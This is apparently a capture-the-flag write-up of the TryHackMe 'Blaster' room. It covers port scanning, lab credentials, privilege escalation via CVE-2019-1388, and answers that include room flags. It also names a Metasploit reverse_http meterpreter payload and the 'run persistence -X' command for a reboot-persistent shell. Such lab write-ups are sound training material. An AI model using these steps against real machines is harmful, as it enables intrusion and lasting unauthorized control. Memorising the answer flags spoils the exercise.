# BLASTER


## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql         MySQL (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T21:15:06+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-05-21T21:44:38
|_Not valid after:  2020-11-20T21:44:38
|_ssl-date: 2020-10-04T21:15:14+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-04T21:15:09
|_  start_date: 2020-10-04T21:13:13
```

## PORT 80 ENUMERATION

* With dirsearch Found:

/retro

Users: Wade





```text
wade:parzival
```

## RDP

Log in with the creds found 





## PRIV ESC





* Run as administrator
* Show more details
* Show information about the publisher's certificate



* Click in Issued by:



* save as





* Right click in cmd and choose open





## PERSISTENCE







* run persistence -X to get a shell always after a reboot

## ANSWERS

1. How many ports are open on our target system?

```text
 2
```

1. Looks like there's a web server running, what is the title of the page we discover when browsing to it?

```text
IIS Windows Server
```

1. Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

```text
/retro
```

1. Navigate to our discovered hidden directory, what potential username do we discover?

```text
wade
```

1. Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

```text
parzival
```

1. Log into the machine via Microsoft Remote Desktop \(MSRDP\) and read user.txt. What are it's contents?

```text
THM{HACK_PLAYER_ONE}
```

1. When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

```text
CVE-2019-1388
```

1. Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

```text
hhupd
```

1. Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!

```text
No answer needed
```

1. Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

```text
nt authority\system
```

1. Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

```text
THM{COIN_OPERATED_EXPLOITATION}
```

1. Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web\_delivery' for use.

```text
No answer needed
```

1. First, let's set the target to PSH \(PowerShell\). Which target number is PSH?

```text
2
```

1. After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

```text
No answer needed
```

1. Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse\_http'. Following this, launch the attack as a job with the command 'run -j'.

```text
No answer needed
```

1. Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server \(python3 -m http.server\) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

```text
No answer needed
```

1. Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

```text
run persistence -X
```

1. Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

```text
No answer needed
```

## OTHER WAY


